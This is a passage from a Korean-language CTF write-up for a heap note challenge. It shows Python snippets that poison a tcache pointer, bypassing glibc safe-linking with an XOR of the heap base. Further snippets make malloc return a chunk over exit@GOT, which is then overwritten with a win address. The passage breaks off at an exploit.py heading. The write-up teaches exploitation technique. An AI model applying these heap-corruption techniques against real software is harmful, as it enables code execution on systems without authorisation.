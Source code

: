 

이후 오염된 A의 fd를 fake_chunk 주소로 조작한다.



```python

create(0, 0x60, p64(fake_chunk_addr ^ (heap_leak >> 12)))

```



glibc 2.30+부터는 safe-linking이 적용돼 있어서 



fd = fake_addr ^ (heap_base >> 12) 이어야 bypass 가능하다.



3번 할당하게 되면 fake_chunk에 malloc을 반환하도록 유도



```python

create(1, 0x60, b'b')  # B

create(2, 0x60, b'a')  # A again

create(3, 0x60, p64(elf.got['exit']))  # fake_chunk에 malloc 됨

```



이러면 .bss 상의 포인터가 GOT 주소를 가리키게 된다.



즉, notes[7].data = exit@GOT



![image.png](/assets/img/dh5note/image17.png)



update를 통해 7번 위치의 data에 0x401256 함수를 넣으면 익스 성공 



---



### exploit.py
